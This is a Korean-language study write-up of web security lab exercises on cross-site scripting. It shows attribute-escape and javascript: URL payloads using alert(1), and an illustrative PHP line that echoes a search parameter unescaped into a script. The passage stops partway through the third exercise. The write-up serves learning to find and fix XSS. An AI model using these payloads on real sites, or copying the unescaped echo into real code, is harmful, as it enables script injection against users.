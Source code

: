 검색칭에 아무값(adasdasd)이나 입력해보면 해당 문자열이 삽입되는 부분은 2곳입니다.

첫 번째는 여기고
```html
<h1>0 search results for 'adasdasd'</h1>
```

두 번째는 여기입니다.
```html
<input type="text" placeholder="Search the blog..." name="search" value="adasdasd">
```

첫 번째는 싱글 쿼터로 감싸있기에 이 부분은 어려울 것 같습니다.
두 번째는 더블 쿼터를 이용해 탈출 후 event handler로 XSS를 시도할  수 있을 것 같습니다.

다음을 입력하면 
```
"onmouseover="alert(1)
```

아래와 같이 되므로 XSS가 발생합니다.
```html
<input type="text" placeholder="Search the blog..." name="search" value=""onmouseover="alert(1)">
```


## Stored XSS into anchor `href` attribute with double quotes HTML-encoded
---
이전 문제와 달리 HTML encoding을 하기 때문에 아래 HTML을 comment 입력해도 XSS가 동작하지 않는다.
```html
<script>alert(1)</script>
```

여기서는 href와 javascript schema를 이용하도록 한다. 다음 코드를 Website 입력란(해당 입력이 href의 값이 된다.)에 적으면 문제가 해결된다.

```
javascript:alert(1)
```

## Reflected XSS into a JavaScript string with angle brackets HTML encoded
---
이번에는 이전 문제와 달리 attribute가 아닌 JavaScript string를 이용하는 듯하다.

search parameter에 fsdfsdf를 입력한 뒤 자세히 script를 뒤지다보면 다음과 같은 것을 발견할 수 있다.
```js
                        var searchTerms = 'fsdfsdf';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    
```

서버에서 php를 사용한다고 했을 때 코드를 작성해보면 위 코드는 다음과 같을 수 있습니다.
```php
                        var searchTerms = '<?php echo $_GET["search"];?>';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    
```
